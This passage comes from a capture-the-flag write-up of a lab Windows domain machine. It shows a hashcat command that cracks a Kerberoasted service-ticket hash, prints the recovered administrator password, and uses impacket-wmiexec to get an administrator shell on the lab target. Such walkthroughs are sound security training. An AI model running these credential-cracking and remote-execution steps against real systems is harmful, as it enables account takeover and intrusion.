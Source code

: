 **TASK 7:**
**What is the plaintext password for the administrator account?**
	*Hint: hashcat is a nice tool for cracking this kind of challenge / response.*
For this, I read the contents of the service ticket obtained from the previous task. The password cracking tool recommended from the hint was hashcat.
![img-description](9.png)

Hashcat command used:
```shell
hashcat -m 13100 -a 0 GetUsersSPNs.txt /usr/share/wordlists/rockyou.txt 
```
Breakdown of command:
- `-m 13100`: Specifies the hash mode for Kerberos 5 TGS-REP etype 23. This mode is specifically used for cracking Kerberos service tickets.
- `-a 0`: Specifies the attack mode as a dictionary attack (using a wordlist).
- `GetUsersSPNs.txt`: file containing the hash to be cracked
- `/usr/share/wordlists/rockyou.txt`: path to the wordlist to be used.

And with that I successfully got the Administrator's password.
![img-description](10.png)

```shell
Ticketmaster1968
```

**TASK 8:**
**Submit the flag located on the administrator's desktop.**

After doing some research online, I got a hint towards using `wmiexec.py` to start a shell that will enable me to interact with the target system as the administrator.

```shell
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.10.10.100 
```
Breakdown of the command:
- `impacket-wmiexec`: command to run the `wmiexec` tool from the Impacket toolkit.
- `active.htb/administrator:Ticketmaster1968`: Specifies the domain, username and password for authentication to the target machine.
- `@10.10.10.100`: specifies the target's IP
